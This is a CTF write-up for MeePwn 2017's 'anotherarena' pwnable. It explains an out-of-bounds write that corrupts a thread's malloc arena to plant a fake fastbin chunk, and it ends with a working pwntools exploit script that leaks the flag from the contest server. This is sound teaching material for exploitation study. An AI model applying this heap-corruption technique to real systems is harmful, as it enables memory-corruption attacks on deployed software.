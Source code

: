 ```yaml
---
title: MeePwn CTF 2017 -- anotherarena
comments: true
permalink: "/:title/"
tags:
- CTF
- Pwnable
- Python
- MeePwn
- heap
categories:
- write-ups
date: '2017-07-16 11:00:00 +0000'
---
```


**Category:** Pwnable

64 bit ELF, Partial RELRO, canary & NX enabled, No PIE.  

<!-- more -->


The program is a simple crackme program with multi-thread. First, the program will read the FLAG into a global buffer `flag` . Then, it will ask us to input the size of a buffer. Later the program will use a thread to malloc a buffer `buf` with the given size. Then the program will use another thread to do the following:  
* Ask for a 4 byte data and treat it as `index`
* Ask for a 4 byte data, and store it at `buf[index]`
* Repeat


It will repeat `given_size / 4` times. If the input `index` is larger than the given size, it will also break out the loop. Basically it just letting us input a bunch of integers to the `buf` buffer.  


After that the program will do the following:
```c
/* add all integers in buf to v5*/
for ( i = 0; i < LODWORD(g_size[0]); i += 4 )
    v5 += *(int *)((char *)g_heap_buf + (signed int)i);

/* read size and allocate a buffer ( for license) */
size = read_int();
lic = malloc((unsigned int)size);
/* read to lic */
read(0, lic, (unsigned int)size);
/* crackme check*/
if ( v5 == 3233853430 )
    printf("Good boy! Your license: %s\n", lic);
else
    puts("Bad b0y!");
exit(0);
```

So, to solve this challenge, we'll have to:
* Pass the crackme check ( this is easy )
* **Locate the `lic` buffer at ( or near ) the `flag` buffer**, so later we can leak the flag by print out the license content. We'll focus on this one.


First of all the program has a out-of-bound write vulnerability: by input a **negative** `index`, we can overwrite the data at `buf[-XXX]`.  

Before we use this vulnerability to exploit the service, we'll have to understand how the malloc work in different thread. When a thread wants to malloc a buffer, it will use its own `arena` structure, a data structure which stores the malloc state of that thread ( check out the [source code](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#1648) ). The `arena` structure will also store the fastbin chunks' address ( the `fastbinsY[NFASTBINS]` member ). 

If we can control `fastbinsY[NFASTBINS]`, we'll be able to malloc a fastbin chunk at any address ( theoretically, since we'll still need to bypass some check in malloc ). By using gdb, we can locate the thread `arena`'s address is at `buf - 0x8a0`, making us able to use the OOB write to overwrite its data structure.

Now we'll have to choose our fake chunk's location. I decided to choose the address `0x6020bd`: 

```
gdb-peda$ x/2gx 0x6020bd
0x6020bd:       0xfff7bb5540000000      0x000000000000007f   <-- fake fastbin chunk ( size = 0x70 )
```

We can see that `0x6020bd` is a good target of a fake fastbin[5] chunk ( size = 0x70 ). The `0x7f` is a part of the `stderr` address. Moreover, the `flag` is at `0x602101` ( behind the fake chunk ) , so we can just pad some chars to the allocated chunk ( pad until it reach the beginning of the flag buffer ), later when the program print out the license content, it will give us the flag as well.  

So to sum up:
1. Use the OOB write to overwrite `fastbinsY[5]`
2. Choose the fake fastbin[5] chunk target at `0x6020bd`
3. Input the data to bypass the crackme check
4. Input allocate size to make `malloc()` allocate fastbin[5] ( size = 0x70 )
5. Pad the allocated buffer until it reach the `flag` buffer
6. Print out the license and get the flag

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.241.76"
PORT = 31335
ELF_PATH = "./anotherarena_noalarm"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

flag = 0x602101
fake_chunk = 0x6020bd

def write(off, data):
    r.send(p32(off))
    time.sleep(0.5)
    r.send(p32(data))
    time.sleep(0.5)

if __name__ == "__main__":
    
    r = remote(HOST, PORT)

    r.sendline("50")
    time.sleep(0.5)
    # move the offset to thread's arena + 0x30 ( fastbin[5], size=0x70 )
    # fake chunk near stderr, use its 0x7f to create fake chunk
    write(0xfffff790, fake_chunk)
    # make final answer = 3233853430
    write(0, 0x7fffffff)
    write(4, 0x40c0af8f)
    
    # break loop
    r.send(p32(100)) 
    time.sleep(0.5)
    
    # allocate buf & pad to flag
    r.sendline("104") # allocate 104 byte
    time.sleep(0.5)
    r.send("i"*0x34) # pad to flag

    r.interactive()
```

flag: `MeePwnCTF{oveRwrit3_another_(main)_arena}`
